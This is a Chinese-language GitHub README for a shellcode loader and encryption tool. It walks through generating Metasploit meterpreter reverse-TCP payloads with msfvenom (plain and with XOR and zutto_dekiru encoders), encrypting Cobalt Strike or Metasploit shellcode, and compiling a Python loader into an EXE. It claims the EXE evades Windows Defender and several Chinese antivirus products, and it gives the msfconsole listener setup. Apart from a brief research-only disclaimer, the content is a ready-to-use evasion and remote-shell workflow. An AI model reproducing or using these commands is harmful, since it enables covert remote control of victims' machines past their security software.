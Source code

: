 # ShellCode_Loader

ShellCode_Loader - Msf&amp;CobaltStrike免杀ShellCode加载器、Shellcode_encryption - 免杀Shellcode加密生成工具，目前测试免杀360&amp;火绒&amp;电脑管家&amp;Windows Defender（其他杀软未测试）。

# 声明

该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！
代码未经过大量测试，如发现问题请提交 issue。

# 测试环境

截至2022年9月3日测试时Windows 10 可免国内杀软：火绒&360&电脑管家及Windows Defender（其他杀软自测）

Windows 7 64位 或以上操作系统应该都没问题（没有测试）

# 生成Msf_Payload

### 默认

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload.c

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f py -o  payload_py.c
```

### XOR 编码器

```
msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor.c
```

### 动态密钥XOR编码器

```
msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor_dynamic.c
```

### Zutto Dekiru

```
msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_zutto_dekiru.c
```

# 生成CobaltStrike_Payload

![图片](https://user-images.githubusercontent.com/34683107/188174674-0761d510-264f-47b0-85ea-be5566c0d3f1.png)

选择使用x64的C语言或Python语言的Shellcode。

![图片](https://user-images.githubusercontent.com/34683107/188174724-ddbe398b-d378-4336-a79a-6a7e406659a4.png)

得到一个payload.c的文件

内容为：

![图片](https://user-images.githubusercontent.com/34683107/188178026-bd171622-6f6e-4568-af43-e2d49755220c.png)

# 加密Payload

```
Shellcode_encryption.exe    payload.c
```

![图片](https://user-images.githubusercontent.com/34683107/188175988-d1de1fba-d7ea-4349-acf4-1c7de44d6ad7.png)

# 配置ShellCode加载器

将生成的密文ShellCode 填至 ShellCode_Loader.py 里的 Data = '密文Shellcode' 处
示例：
![图片](https://user-images.githubusercontent.com/34683107/188174998-22cdbaa6-80b2-457b-bfd1-0419ca0816c4.png)
最终格式：
![图片](https://user-images.githubusercontent.com/34683107/188175071-d1396239-5f8f-4fdb-b750-80e2ac6fabd1.png)

# 打包可执行程序(EXE编译环境)

Python 3.8.6

pyinstaller 4.7

```
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
pyinstaller -F -w ShellCode_Loader.py
```

生成ShellCode_Loader.exe在dist目录中

# 上线测试

## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```

![图片](https://user-images.githubusercontent.com/34683107/188175266-31ca4e0b-bb8a-4863-a958-065330c500af.png)
![图片](https://user-images.githubusercontent.com/34683107/188175368-ab9d2f0f-2f92-42ca-b8d6-6980d84d3e51.png)
帮忙点个Star 谢谢

# 参考链接

https://mp.weixin.qq.com/s/M3tbE08ybD_lIrJS8FtPTw

https://mp.weixin.qq.com/s/jMHn4trtMjgdSIsRmoVOtw

https://mp.weixin.qq.com/s/2105i9rX4yv6K0emRFr8_g

https://mp.weixin.qq.com/s/VS_c3QClxmCB6raXEfljpg

https://mp.weixin.qq.com/s/4pwbdK6zz4XH7YJxCoA1Lw

# 感谢阅读

![图片](https://user-images.githubusercontent.com/34683107/188175429-58a71c93-a603-408f-ac9b-c0b616b6467c.png)
